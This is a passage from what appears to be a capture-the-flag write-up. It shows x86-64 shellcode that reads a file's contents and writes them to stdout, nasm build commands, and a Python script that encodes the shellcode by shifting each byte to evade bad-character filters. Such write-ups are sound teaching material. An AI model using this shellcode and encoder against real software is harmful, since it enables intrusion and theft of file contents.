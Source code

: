 ```
                    ; have to use the push/pops, because `xchg` would generate a badchar after encoding.
push rax            ; filehandle of just opened file
push rsi            ; rsi = 0
push rdi            ; rdi = pointer to top of stack
pop rsi             ; rsi = buf
pop rax             ; rax = 0 (syscall read)
pop rdi             ; rdi = filehandle
push byte 127       ; amount of bytes to read
pop rdx             ; in rdx
syscall             ; read in the contents of the file

push rbx            ; rbx is still 0
pop rax             ; zero out rax
xor al, 1           ; syscall write
push rax            ; copy rax to rdi
pop rdi             ; filehandle = 0 (stdout)
                    ; rsi = still pointer to buffer
                    ; rdx = still 0x7f
syscall             ; write to stdout; get me the flag!
ret                 ; return to handler program
```

Now, I could assemble these two shellcode pieces with `nasm`:

```
$ nasm -f bin ./decoder.asm
$ nasm -f bin ./shellcode.asm
```

Then I wrote a small python program to do the actual encoding of the shellcode:

```python
payload = ''

# read in the decoder
with open('decoder') as decoder:
    data = decoder.read()
    for i in data:
        payload += "\\x%02x" % ord(i)
    decoder.close()

# read in the shellcode & encode it
with open('shellcode') as sc:
    data = sc.read()
    # for each byte, we add 1 to it and emit it.
    for i in data:
        payload += "\\x%02x" % (ord(i) + 1)
    sc.close()

# spit out payload!
print payload
```
